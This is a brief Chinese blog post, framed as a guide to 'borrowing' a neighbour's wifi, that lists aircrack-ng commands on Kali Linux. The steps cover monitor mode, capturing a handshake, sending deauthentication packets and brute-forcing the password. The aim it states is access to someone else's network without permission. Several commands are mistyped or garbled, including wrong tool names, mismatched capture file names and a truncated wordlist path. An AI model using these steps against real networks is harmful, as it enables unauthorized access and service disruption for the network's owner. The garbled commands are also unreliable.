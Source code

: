 4.---
layout:     post
title:      借用隔壁老王wifi攻略
category:   life
description: 借用隔壁老王wifi攻略
---
这篇文章如题，详细的内容不描述。

System : Kali Linux
Tool airmon-ng , 可以探针wifi

1. 检测wifi 的存在
<pre class="prettyprint">
iwcofing
</pre>
2. Check kill
<pre class="prettyprint">
airman-ng check kill
</pre>
3. 查看无线网卡
<pre class="prettyprint">
airmon -ng
</pre>
4. 开启无线网卡： airmon -ng  start eth0
查找无线网络：airodump-ng eth0
网络抓包：airodump-ng -w vutfile -c 1 —bssid MacAddress eth0

ARP 发包：aireplay-ng -0 0 -a MacAddress eth0

暴力破解：aircrack-ng outfile1.cap -w /
